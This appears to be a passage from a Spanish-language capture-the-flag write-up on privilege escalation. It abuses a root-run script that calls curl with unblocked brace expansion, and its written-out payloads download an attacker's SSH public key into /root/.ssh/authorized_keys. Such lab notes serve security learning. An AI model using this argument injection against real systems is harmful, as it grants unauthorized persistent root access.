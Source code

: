 De aquí lo primero que podemos ver es que está bloqueando ciertos caracteres y luego que ejecuta un curl de una ip desde una bash.

Se me ocurre según hemos visto otras veces que al las llaves no estar bloqueadas, podríamos poner {unarchivo desde una ip,-o,meter el archivo de salida en root uathorized keys} lo que pasa que no se si code tiene una key por lo que tendría que crearla.

En principio creo recordar que al tener python puedo hacer esto desde la terminal de code. Como vamos a tener que crear un http.server y ejecutar además el treport nos tenemos que abrir otro ssh 

ssh-keygen desde /home/code y nos crea una id_rsa



{http://10.10.11.126:1111/id_rsa,-o,/root/.ssh/authorized_keys}

{10.10.11.126:1111/id_rsa.pub,-o,/root/.ssh/authorized_keys}

![](assets/2022-07-03-13-21-09.png)